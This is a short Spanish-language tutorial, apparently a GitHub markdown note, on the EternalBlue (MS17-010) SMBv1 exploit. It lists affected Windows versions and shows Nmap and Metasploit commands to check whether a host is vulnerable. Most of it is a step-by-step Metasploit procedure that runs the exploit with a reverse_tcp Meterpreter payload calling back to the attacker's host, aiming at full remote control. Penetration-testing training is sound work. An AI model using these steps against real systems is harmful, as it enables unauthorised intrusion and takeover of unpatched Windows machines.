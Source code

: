 # EternalBlue (MS17-010)

## 1. ¿Qué es EternalBlue?

- EternalBlue es un exploit desarrollado por la NSA y filtrado en 2017.
- Aprovecha una vulnerabilidad crítica en el protocolo **SMBv1** de Windows para ejecución remota de código.
- Permitió ataques masivos como **WannaCry** y **NotPetya**.

---

## 2. Versiones de Windows afectadas

- Windows Vista (32-bit y 64-bit)
- Windows 7 (32-bit y 64-bit)
- Windows Server 2008 y 2008 R2
- Windows 8.1 (algunas versiones)
- Windows Server 2012
- Windows 10 (versiones iniciales sin parches)
  
**Nota:**  
- Las versiones modernas con SMBv1 deshabilitado o con los parches aplicados no son vulnerables.
- Microsoft lanzó el parche **MS17-010** para corregir esta vulnerabilidad.

---

## 3. Cómo identificar si un sistema es vulnerable

### a) Usar Nmap con script específico

```bash
nmap -p 445 --script smb-vuln-ms17-010 <IP_objetivo>
```

El script devuelve si el host es vulnerable o no.

### b) Usar Metasploit para escanear

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <IP_objetivo>
run
```

Esto también indica si el sistema es vulnerable.

---

## 4. Cómo usar el exploit EternalBlue en Metasploit

### a) Iniciar msfconsole

```bash
msfconsole
```

### b) Seleccionar módulo exploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

### c) Configurar opciones básicas

```bash
set RHOSTS <IP_objetivo>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <tu_puerto>
```

### d) Ejecutar el exploit

```bash
run
```

Si es exitoso, obtendrás una sesión Meterpreter con control remoto.

---


